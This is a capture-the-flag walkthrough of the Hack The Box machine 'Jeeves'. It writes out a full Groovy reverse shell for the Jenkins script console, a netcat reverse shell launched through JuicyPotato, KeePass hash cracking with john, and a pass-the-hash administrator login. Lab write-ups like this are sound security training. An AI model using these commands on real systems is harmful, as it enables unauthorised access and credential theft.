 # Jeeves

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

Starting off with an Nmap scan, I found that ports 80,135,445 and 50000 were open.

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>



### Port 50000 Jetty 9.4.z-SNAPSHOT

Visiting the webpage, I was greeted by a Error 404 page.

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Next, I searched for subdomains using dirbuster with `/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt` wordlist. I found the `/askjeeves` subdirectory.

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

Heading to [http://10.10.10.63:50000/askjeeves/](http://10.10.10.63:50000/askjeeves/), it was a Jenkins management console. Going to `Manage Jenkins` --> Script console, I was able to upload the following groovy reverse shell.

```bash
String host="10.10.14.6";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And I obtained a user shell

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

Using the command `whoami /priv`, I was able to view that the `SeImpersonatePrivilege` is enabled which could allow for JuicyPotato attack.

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Next, I transferred nc.exe over using SMB.

```bash
copy \\10.10.14.6\share\nc32.exe .
```

Afterwards, I ran the following command to obtain a root reverse shell

```bash
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\Desktop\nc32.exe -e cmd.exe 10.10.14.6 4444" -t *
```

However, the JuicyPotato attack does not seem to work.

#### Futher Enumeration for Privilege Escalation

I found `CEH.kdbx` at `C:\Users\kohsuke\Documents`

After copying the file to the attacker machine, I used `keepass2john CEH.kdbx > keepass_hash` to extract a crackable hash from the Keepass Password Database.

Running `john keepass_hash --wordlist=/usr/share/wordlists/rockyou.txt` to crack the hash, I obtained the password as `moonshine1`

Using the password to view the password database, I found the following entries.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I found the following passwords

```
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
12345
S1TjAtJHKsugh9oC4VZl
pwndyouall!
F7WhTrSFDKB6sxHU1cUn
lCEUnYPjNfIuPZSzOySA
Password
```

The first password entry looks like a hash so I tried to using Pass-the-Hash method.

```bash
pth-winexe -U 'administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00' //10.10.10.63 cmd.exe
```

I managed to login as the `administrator`.

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

Heading to `c:\users\administrator\desktop` for the root flag, I instead found `hm.txt`

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

This could indicate that the flag is present as an Alternate Data Stream. Using `dir /r`, I was able to view the streams present in the directory.&#x20;

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

Viewing the flag using `more < hm.txt:root.txt`, I obtained the root flag

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>
